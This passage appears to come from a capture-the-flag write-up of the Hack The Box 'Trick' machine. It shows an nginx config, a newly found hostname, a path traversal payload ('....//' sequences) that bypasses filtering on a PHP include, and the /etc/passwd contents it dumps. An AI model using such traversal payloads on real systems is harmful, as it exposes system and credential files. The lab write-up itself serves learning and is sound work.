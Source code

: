 ```
        listen 80;
        listen [::]:80;

        server_name preprod-payroll.trick.htb;

        root /var/www/payroll;
        index index.php;

        location / {
                try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }
}
```

Well look at that, we have another hostname that wasn't there in the zone transfer - `preprod-marketing.trick.htb`. Let's add that to the ol' `/etc/hosts` file and move over to it.

# The classics

Marketing's website is where this becomes a bit more basic, thankfully, as the enumeration up to this point has been more difficult than I had expected given the challenge's rating.

The main thing to take note of on the marketing page is that the page seems to be running off of PHP `incloude`s, whereas the payroll site was using nav anchors to load content. This means we can _probably_ use some basic path traversal, though it may need to get somewhat obfuscated as many challenges (and of course real world scenarios) will filter this either with application code or a WAF):

`http://preprod-marketing.trick.htb/index.php?page=about.html` isn't of any use to us, but what about `http://preprod-marketing.trick.htb/index.php?page=../../../../../../etc/passwd`? Well, no, sadly. Maybe if we tweak that a bit further?

`http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//....//etc/passwd`:

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:104:110::/nonexistent:/usr/sbin/nologin tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin saned:x:112:121::/var/lib/saned:/usr/sbin/nologin colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false sshd:x:118:65534::/run/sshd:/usr/sbin/nologin postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin bind:x:120:128::/var/cache/bind:/usr/sbin/nologin michael:x:1001:1001::/home/michael:/bin/bash
```